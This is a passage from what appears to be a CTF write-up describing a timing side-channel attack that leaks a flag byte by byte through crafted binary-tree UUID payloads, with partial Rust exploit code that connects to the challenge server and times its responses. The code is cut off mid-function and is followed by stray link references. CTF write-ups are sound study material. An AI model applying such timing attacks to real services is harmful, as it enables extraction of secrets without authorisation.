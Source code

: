 ## attack overview

We realized that we although we couldn't get any feedback directly, we could perform a timing attack.  By constructing a binary tree such that uuids lower than the node hit the end of the tree immediately and uuids higher have to traverse a long tail we can leak which direction the character is in.  By performing a binary search (heh) we can narrow this down to the exact byte in 8 connections.  This can be done for everything except the last two characters because of how we created the payload.  Fortunately, we know that the last character in the flag is a closing bracket and the 2nd to last character was obvious from context.  

```rust
use itertools::Itertools;
use std::cmp::Ordering;
use std::cmp::Ordering::{Equal, Greater, Less};
use std::error::Error;
use std::iter::Iterator;
use std::time::{Duration, Instant};
use tokio::io::{AsyncReadExt, AsyncWriteExt};
use tokio::join;
use tokio::net::TcpStream;
use tokio::time::delay_for;

fn create_payload(known: &[u8], i: u8) -> Vec<[u8; 16]> {
    (0..=0xff)
        .cartesian_product(0..=0x2f)
        .map(|(l, r)| {
            let mut res = [0u8; 16];
            res[0..known.len()].clone_from_slice(&known[..]);
            res[known.len()] = i;
            res[known.len() + 1] = l;
            res[known.len() + 2] = r;
            res
        })
        .collect::<Vec<[u8; 16]>>()
}

async fn attack(entries: Vec<[u8; 16]>) -> Result<Duration, Box<dyn Error>> {
    let mut total = Duration::new(0, 0);
    let mut tasks = Vec::new();

    let NUM_TRIES: u8 = 3;

    for _ in 0..NUM_TRIES {
        let entries = entries.clone();
        tasks.push(tokio::spawn(async move {
            let (mut read, mut write) = TcpStream::connect("tracing.2020.ctfcompetition.com:1337")
                // let (mut read, mut write) = TcpStream::connect("localhost:1337")
                .await
                .unwrap()
                .into_split();
            for e in &entries {
                write.write_all(e).await.unwrap();
            }

            let mut resp = Vec::new();
            write.flush().await.unwrap();
            delay_for(Duration::new(10, 0)).await;
            write.shutdown().await.unwrap();
            let mut buf = [0; 4];
            read.read(&mut buf).await.unwrap();
            let start = Instant::now();
            read.read_to_end(&mut resp).await.unwrap();
            let elapsed = start.elapsed();

```

[Addison]: https://github.com/VTCAKAVSMoACE
[theinen]: https://github.com/tcheinen
[komputerwiz]: https://github.com/komputerwiz
[Arjun]: https://github.com/alalith
[chroot]: https://wiki.archlinux.org/index.php/Chroot
[getty override]: https://wiki.archlinux.org/index.php/Getty#Automatic_login_to_virtual_console
[systemd]: https://wiki.archlinux.org/index.php/Systemd
[systemd-nspawn]: https://wiki.archlinux.org/index.php/Systemd-nspawn
[hashcat]: https://hashcat.net/hashcat/
[rockyou]: https://wiki.skullsecurity.org/Passwords
[SSDT]: https://wiki.osdev.org/SSDT
[AML]: https://wiki.osdev.org/AML
[keybd\_event repo]: https://github.com/micmonay/keybd_event/blob/master/keybd_linux.go
[@micmonay]: https://github.com/micmonay
[Addison]: https://github.com/VTCAKAVSMoACE
[theinen]: https://github.com/tcheinen
[komputerwiz]: https://github.com/komputerwiz